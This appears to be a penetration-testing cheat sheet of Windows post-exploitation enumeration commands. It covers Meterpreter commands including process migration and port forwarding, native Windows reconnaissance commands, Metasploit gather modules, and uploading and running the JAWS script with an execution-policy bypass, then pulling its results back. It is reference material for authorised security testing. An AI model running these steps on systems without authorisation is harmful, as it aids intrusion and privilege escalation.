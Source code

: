 # Windows local enumeration

## Enumerating system information

```text
meterpreter > sysinfo
meterpreter > shell
C:\>systeminfo
```

## Enumerating all windows updates patches on the system

```text
C:\>wmic qfe get Caption,Description,HotFixID,Installation
```

## Enumerating users & groups

```text
meterpreter > getuid
meterpreter > getprivs
```

```text
meterpreter > shell
C:\>whoami
C:\>whoami /priv
C:\>query user
C:\>net users
C:\>net user administrator
C:\>net localgroup
C:\>net localgroup administrators
```

```text
meterpreter > background
msf6 > use post/windows/gather/enum_logged_on_users
msf6 > sessions
msf6 > set SESSION 1
msf6 > run
```

## Enumerating network information

```text
meterpreter > arp
meterpreter > getproxy
meterpreter > ifconfig
meterpreter > netstat
meterpreter > portfwd
meterpreter > resolve
meterpreter > route
```

```text
C:\>ipconfig
C:\>ipconfig /all
C:\>route print
C:\>arp -a
C:\>netstat -ano
C:\>netsh firewall show state
C:\>netsh firewall show state
```

## Enumerating processes & services

```text
meterpreter > ps
meterpreter > pgrep explorer.exe
meterpreter > migrate 2176
```

```text
meterpreter > shell
C:\>net start
C:\>wmic service list brief
C:\>tasklist /SVC
C:\>schtasks /query /fo LIST
```

## Enumerating disks

```text
meterpreter > show_mount
```

## Automating windows local enumeration

### With Metasploit

```text
msf6 > use post/windows/gather/win_privs
msf6 > use post/windows/gather/enum_logged_on_users
msf6 > use post/windows/gather/checkvm
msf6 > use post/windows/gather/enum_applications
msf6 > use post/windows/gather/enum_computers
msf6 > use post/windows/gather/enum_patches
msf6 > use post/windows/gather/enum_shares
```

### With Just Another Windows enum script (JAWS)

```text
:~# git clone https://github.com/411Hall/JAWS.git
meterpreter > cd C:\\
meterpreter > mkdir Temp && cd Temp
meterpreter > upload /root/jaws-enum.ps1
meterpreter > shell
C:\Temp>powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Results.txt
C:\Temp>^C
meterpreter > download JAWS-Results.txt
```
